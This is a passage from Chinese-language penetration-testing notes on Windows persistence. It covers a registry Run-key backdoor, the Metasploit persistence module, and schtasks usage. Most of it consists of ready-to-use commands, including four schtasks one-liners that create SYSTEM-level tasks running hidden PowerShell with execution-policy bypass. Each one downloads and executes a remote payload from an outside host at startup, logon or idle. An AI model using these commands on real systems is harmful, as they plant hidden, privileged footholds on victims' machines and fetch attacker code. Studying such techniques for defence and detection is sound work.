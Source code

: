 

## 2. 注册表后门

开启启动项

```powershell
\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

msf 下的命令：

```powershell
use exploit/windows/local/persistence
```

## 3. 计划任务

`schtasks`命令参数如下：

- /Create 创建新任务。
- /Delete 删除计划任务。
- /Query 显示所有计划任务。
- /Change 更改计划任务属性。
- /Run 按需运行计划任务。
- /End 中止当前正在运行的计划任务。
- /ShowSid 显示与计划的任务名称相应的安全标识符

```powershell
# schtasks 命令
# 每天晚上 03:30 定时执行
schtasks /create /tn "TimedTask1" /tr C:\Users\Administrator\Desktop\TimedTask\Run.bat /sc DAILY /st 03:30 
# statement A

# 查询创建的任务
schtasks /query /tn TimedTask1 /v

# 立即运行创建的任务
schtasks /run /tn TimedTask1

# 删除任务
schtasks /delete /tn TimedTask1
```

搭配远程下载如下：

```powershell
#(X64) - On System Start
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System
 
#(X64) - On User Idle (30mins)
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30
 
#(X86) - On User Login
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onlogon /ru System
  
#(X86) - On System Start
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System
  
```